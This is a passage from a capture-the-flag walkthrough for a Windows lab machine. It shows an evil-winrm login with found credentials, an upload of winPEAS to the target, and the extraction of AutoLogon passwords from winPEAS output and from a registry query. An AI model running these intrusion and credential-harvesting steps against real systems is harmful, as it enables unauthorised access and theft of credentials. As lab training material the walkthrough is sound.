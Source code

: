 `evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

```
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> cat C:\Users\FSmith\Desktop\user.txt
```

We get **user**.

## Finding The Autologon Password

winPEAS stands for [Windows Privilege Escalation Awesome Scripts](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). It is a fantastic script for finding privilege escalation vectors.

Let's run it to automate initial privilege escalation enumeration.

Evil-winrm offers an easy way to get C# executables into a target machine. To so, we need to modify our initial command to include the folder with the winPEAS binary.

```
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23 -e /folder/withbinary/
*Evil-WinRM* PS C:\Users\FSmith\Documents> Invoke-Binary /folder/withbinary/winPEAS.exe
```

It returns a long output, but the default color highlighting makes it easy to spot the following.

```
[+] Looking for AutoLogon credentials(T1012)
  Some AutoLogon credentials were found!!
  DefaultDomainName             :  EGOTISTICALBANK
  DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
  DefaultPassword               :  Moneymakestheworldgoround!
  ```

You can also find the autologon credentials through a [manual enumeration process](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).

* Autologon information is stored in the HKLM [registry hive](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-hives). A hive includes a logical group of keys, subkeys, and values.
* To retrieve the information, we can use **reg** - [a console registry tool](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query).
* The `query` parameter lists the next tier of subkeys and their entries.

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    <SNIP>
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    <SNIP>
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```
